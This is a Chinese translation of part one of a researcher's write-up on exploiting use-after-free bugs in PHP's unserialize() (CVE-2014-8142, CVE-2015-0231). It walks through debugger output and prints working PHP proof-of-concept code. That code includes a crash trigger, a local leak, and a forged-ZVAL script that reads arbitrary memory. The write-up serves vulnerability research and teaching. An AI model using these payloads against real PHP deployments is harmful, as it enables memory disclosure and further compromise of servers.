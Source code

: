 # PHP中的内存破坏漏洞利用（CVE-2014-8142和CVE-2015-0231）（连载之第一篇）

0x00 前言
=======

* * *

作者：Cigital公司的安全顾问Qsl1pknotp

题目：Exploiting memory corruption bugs in PHP (CVE-2014-8142 and CVE-2015-0231) Part 1

地址：http://www.inulledmyself.com/2015/02/exploiting-memory-corruption-bugs-in.html

很多人都认为，对基于Web的应用程序来说，内存崩溃类bug不是什么严重问题。尤其现在XSS和SQL注入类漏洞仍然大行其事的情况下，不会有多少注意力投入到这类bug中，它们会被当做“不可利用”或者被直接无视。然而，假如攻击成功，利用这类漏洞进行攻击所导致的结果将远远超出SQL注入以及XSS，因为：

```
1. 攻击者将得到有保证的系统访问权。
2. 将会很难识别恶意攻击数据流量。
3. 需要维护者/供应商提供专门补丁，并且只能希望修补得没有问题。

```

接下来笔者将发表三篇该系列攻击的文章，本文是其中的首篇。该系列将从CVE-2014-8142的利用开始讲起、然后是远程任意信息泄露、最后以获取PHP解释器的控制权结束。Stefan Esser（@i0n1c）是这两个CVE的原作者，并且是在2010年Syscan上第一个讲解如何控制PHP解释器（被称为“ret2php”）的。

0x01 漏洞起源
=========

* * *

这一切都始于2004年，Esser在unserialize()函数中发现的一个Use After Free漏洞。这是一个Hardened-PHP（译者注：如果项目中，服务器的安全性是最重要的，就可以称为是Hardened-PHP）项目的一部分，没有任何代码公开。2010年，Esser又在SPLObjectStorage的unserialize()中发现另一个User After Free，这个漏洞直接产生了Syscan会上的一个发言，跟第一次漏洞一样，本次也没有代码公开。最后，CVE-2014-8142被发现，又被打补丁，但是因为补丁没打好，又导致了CVE-2015-0231。

幸运的是，这次Stefan终于给出了一个可令PHP解释器产生故障的POC。下面的代码就会导致有此漏洞的PHP解释器出现问题。

```
<?php
for ($i=4; $i<100; $i++) {
  var_dump($i);

  $m = new StdClass(); 
  $u = array(1); 
  $m->aaa = array(1,2,&$u,4,5);

  $m->bbb = 1;
  $m->ccc = &$u;
  $m->ddd = str_repeat("A", $i); 
  $z = serialize($m);
  $z = str_replace("bbb", "aaa", $z);

  var_dump($z);

  $y = unserialize($z);

  var_dump($y);
}
?>

```

source:[StefanEsser_Original_POC](https://gist.github.com/tmm08a/d07bfcb4eca90a6d3926#file-stefanesser_original_poc)

0x02 漏洞分析利用
===========

* * *

下面来解释下POC是如何工作的：我们通过重新添加“aaa”对象的值（不同值），来更新对象“aaa”，然而“ccc”对象其实还是指向原始“aaa”对象中的某一个值。

既然我们已经在顶层实现上知道了它的工作原理，接下来就让我们一起试着找到问题的罪魁祸首吧。我们在process_nested_data函数中寻找，快速浏览一下，会发现一段特定的代码：

![enter image description here](http://drops.javaweb.org/uploads/images/eff4aad082d307c26baac980d5d88556d26ff54d.jpg)

让我们一起跟进脚本中来确定真正发生了什么。我们将断点断在var_unserializer.c的第337行来看一下（此处位于process_nested_data函数内）。

![enter image description here](http://drops.javaweb.org/uploads/images/98c0810855eb7c8c7655f37693d7bd1b7c473330.jpg)

继续运行，跟过下面的代码：

```
<?php
$data ='O:8:"stdClass":3:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;s:39:"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;}';
$x = unserialize($data);
var_dump($x);
?>

```

source:[StefanEsser_Original_LocalMemLeak.php](https://gist.github.com/tmm08a/686d3f78a44c8ea80fd0#file-stefanesser_original_localmemleak-php)

运行上面的脚本，断点第一次命中时跳过，第二次命中时，执行下面的查看命令：

```
printzv *(var_entries)var_hash->first

```

![enter image description here](http://drops.javaweb.org/uploads/images/0df3a27edffc4cfce82e6953aab8c900d5e1f8e0.jpg)

可以看到地址的一个数组，这些地址指向unserialize()函数解析的变量值。我们感兴趣的是第五个0xb7bf87c0（我们上面php代码中用的是R:5）。既然已经得到地址，我们就去看一下内容，然后步过该断点并继续运行。

![enter image description here](http://drops.javaweb.org/uploads/images/aee8ce0c4637739263a5c30c656976ccc4bc9222.jpg)

已经调用完该可疑函数，接下来重新看一下刚才我们选定的地址中出现了什么内容：

![enter image description here](http://drops.javaweb.org/uploads/images/df14a2fdf74e63f86ff67033d3f54745ab054dcc.jpg)

成功搞定！当然，还需要确认下该地址是否还在var_hash表中，然后继续运行。

![enter image description here](http://drops.javaweb.org/uploads/images/f2a40f706efda59c3e88c3bc842dc06c2fbddec1.jpg)

果然还在，继续：

![enter image description here](http://drops.javaweb.org/uploads/images/692c664214aa98a77b5213e78044a4ac6824c1ac.jpg)

Sweet！已经可以泄露前面地址中的数据了。我们现在已经可以成功泄露出之前所提供字串的长度，但这其实没什么意思。那么能不能泄露出任意内存数据呢？下面就是你想要的代码：

```
<?php

$fakezval = pack(
    'IIII',     //unsigned int
    0x08048000, //address to leak
    0x0000000f, //length of string
    0x00000000, //refcount
    0x00000006  //data type NULL=0,LONG=1,DOUBLE=2,BOOL=3,ARR=4,OBJ=5,STR=6,RES=7
);
//obj from original POC by @ion1c
$obj = 'O:8:"stdClass":4:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;a:1:{i:0;i:1;}i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;s:3:"ddd";s:4:"AAAA";}';
$obj=unserialize($obj);

for($i = 0; $i < 5; $i++) { //this i value is larger than usually required
    $v[$i]=$fakezval.$i; //repeat to overwrite
}
//due to the reference being overwritten by our loop above, leak memory
echo $obj->ccc;
?>

```

source:[PHPLeak](https://gist.github.com/tmm08a/4c3130001a258e45d39f#file-phpleak)

下面是输出数据：

![enter image description here](http://drops.javaweb.org/uploads/images/69e24c51b4c0078e71c52104efc4382ff3778332.jpg)

我们这里做的操作是非常简单的（希望是）。我们创建自己的ZVAL（PHP使用的内部数据结构）数据结构。我们定义了几个东西，使pack（）函数获取我们的代码执行。按照顺序，它们是：

```
类型（例子中用的是unsigned int）
地址（我们想要泄露的地址）
长度（我们想要泄露内存的长度）
参考标志（0）
数据类型（6，代表String类型）

```

当然，如果我们没有伪造一个string ZVAL结构，这些值是会变化的。代码中的for循环是真正执行内存覆盖操作（覆盖之前释放掉的内存），这些操作使我们得到上述的输出数据。代码中我令循环数$i的值大于其所需的值，只是用以确保代码的通用性，当然我测试过的大多数机器只需要2次就可以了，不需要执行5次。

好了，现在已经可以泄露随意地址数据了，让我们再一起看看CVE-2015-0231？很简单：只需将“aaa”替换成“123”，看一下输出的数据：

![enter image description here](http://drops.javaweb.org/uploads/images/ef6c600b1fb40b97ea6d4fe052e3d217abe478de.jpg)

0x03 下一步研究
==========

* * *

通过上述过程，我们已经完成了一个可在本地泄露任意内存地址数据的POC，且该POC同时适用于两个CVE漏洞的。我们下一步目标是仍然是数据泄露，所不同的是，将会是远程数据泄露！

敬请期待第二回，远程数据泄露！